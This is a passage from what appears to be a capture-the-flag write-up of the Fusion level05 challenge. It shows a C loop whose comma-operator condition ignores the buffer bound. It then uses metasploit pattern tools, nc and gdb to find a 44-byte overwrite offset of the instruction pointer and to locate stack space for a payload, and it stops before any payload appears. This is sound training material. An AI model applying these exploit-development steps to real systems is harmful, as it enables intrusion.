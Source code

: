 The first one is on `get_and_hash`  "for" loop:

```lang-clike line-numbers 
for(i = 0; i < maxsz, string[i]; i++) {
  if(string[i] == separator) break;
   name[i] = string[i];
}
```

The loop wont stop at `maxsz` allowing writing beyond the limits of the "name" buffer (32). We can quickly verify this using **metasploit** to find the right overflow offet:

```lang-bash line-numbers 
fusion@fusion:~$ /opt/metasploit-framework/tools/pattern_create.rb 64
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
```

```lang-bash line-numbers 
fusion@fusion:~$ nc localhost 20005
** welcome to level05 **
checkname Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
```

Monitoring the process with gdb we get:

```lang-bash line-numbers 
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x35624134 in ?? ()
```

That corresponds to offset 44:

```lang-bash line-numbers 
fusion@fusion:~$ /opt/metasploit-framework/tools/pattern_offset.rb 35624134
44
```

This allows us to write beyond "name" buffer limits and into the stored base pointer and instruction pointer. Actually looks like a nice place to place our payload:

```lang-bash line-numbers 
(gdb) x/100wx $esp
0xb940cc6c:	0x44444444	0x42424242	0x42424242	0x42424242
0xb940cc7c:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940cc8c:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940cc9c:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940ccac:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940ccbc:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940cccc:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940ccdc:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940ccec:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940ccfc:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940cd0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940cd1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xb940cd2c:	0x42424242	0x42424242	0x42424242	0x00000000
```
